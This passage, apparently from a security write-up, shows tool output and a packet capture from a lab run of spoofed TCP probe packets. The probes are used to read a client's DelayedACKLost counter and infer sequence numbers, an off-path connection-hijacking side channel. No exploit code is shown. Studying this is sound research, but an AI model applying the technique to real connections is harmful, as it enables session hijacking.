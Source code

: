 ```
[+] DelayedACKLost on client: 0 (INIT)
[-] Sent fake probe packet from server to client with sequence          0. DelayedACKLost counter on client:   0
[-] Sent fake probe packet from server to client with sequence   16777216. DelayedACKLost counter on client:   0
[-] Sent fake probe packet from server to client with sequence   33554432. DelayedACKLost counter on client:   0
[-] Sent fake probe packet from server to client with sequence   50331648. DelayedACKLost counter on client:   0
(...)
```

In the packet capture we can see those spoofed packets:

```
22:01:55.131746 02:42:ac:15:00:04 > 02:42:ac:15:00:03, ethertype IPv4 (0x0800), length 55: (tos 0x0, ttl 64, id 1, offset 0, flags [none], proto TCP (6), length 41)
    172.21.0.2.21587 > 172.21.0.3.7775: Flags [.], cksum 0x83f1 (correct), seq 0:1, ack 0, win 8192, length 1
22:01:55.131783 02:42:ac:15:00:03 > 02:42:ac:15:00:02, ethertype IPv4 (0x0800), length 66: (tos 0x0, ttl 64, id 16725, offset 0, flags [DF], proto TCP (6), length 52)
    172.21.0.3.7775 > 172.21.0.2.21587: Flags [.], cksum 0x5856 (incorrect -> 0x69fd), seq 2538559708, ack 3130168332, win 502, options [nop,nop,TS val 2089494989 ecr 1682241151], length 0

22:01:55.176812 02:42:ac:15:00:04 > 02:42:ac:15:00:03, ethertype IPv4 (0x0800), length 55: (tos 0x0, ttl 64, id 1, offset 0, flags [none], proto TCP (6), length 41)
    172.21.0.2.21587 > 172.21.0.3.7775: Flags [.], cksum 0x82f1 (correct), seq 16777216:16777217, ack 0, win 8192, length 1
22:01:55.176844 02:42:ac:15:00:03 > 02:42:ac:15:00:02, ethertype IPv4 (0x0800), length 66: (tos 0x0, ttl 64, id 16726, offset 0, flags [DF], proto TCP (6), length 52)
    172.21.0.3.7775 > 172.21.0.2.21587: Flags [.], cksum 0x5856 (incorrect -> 0x69d0), seq 2538559708, ack 3130168332, win 502, options [nop,nop,TS val 2089495034 ecr 1682241151], length 0

22:01:55.220703 02:42:ac:15:00:04 > 02:42:ac:15:00:03, ethertype IPv4 (0x0800), length 55: (tos 0x0, ttl 64, id 1, offset 0, flags [none], proto TCP (6), length 41)
    172.21.0.2.21587 > 172.21.0.3.7775: Flags [.], cksum 0x81f1 (correct), seq 33554432:33554433, ack 0, win 8192, length 1
22:01:55.220737 02:42:ac:15:00:03 > 02:42:ac:15:00:02, ethertype IPv4 (0x0800), length 66: (tos 0x0, ttl 64, id 16727, offset 0, flags [DF], proto TCP (6), length 52)
    172.21.0.3.7775 > 172.21.0.2.21587: Flags [.], cksum 0x5856 (incorrect -> 0x69a4), seq 2538559708, ack 3130168332, win 502, options [nop,nop,TS val 2089495078 ecr 1682241151], length 0

22:01:55.260716 02:42:ac:15:00:04 > 02:42:ac:15:00:03, ethertype IPv4 (0x0800), length 55: (tos 0x0, ttl 64, id 1, offset 0, flags [none], proto TCP (6), length 41)
    172.21.0.2.21587 > 172.21.0.3.7775: Flags [.], cksum 0x80f1 (correct), seq 50331648:50331649, ack 0, win 8192, length 1
22:01:55.260747 02:42:ac:15:00:03 > 02:42:ac:15:00:02, ethertype IPv4 (0x0800), length 66: (tos 0x0, ttl 64, id 16728, offset 0, flags [DF], proto TCP (6), length 52)
    172.21.0.3.7775 > 172.21.0.2.21587: Flags [.], cksum 0x5856 (incorrect -> 0x697c), seq 2538559708, ack 3130168332, win 502, options [nop,nop,TS val 2089495118 ecr 1682241151], length 0

```
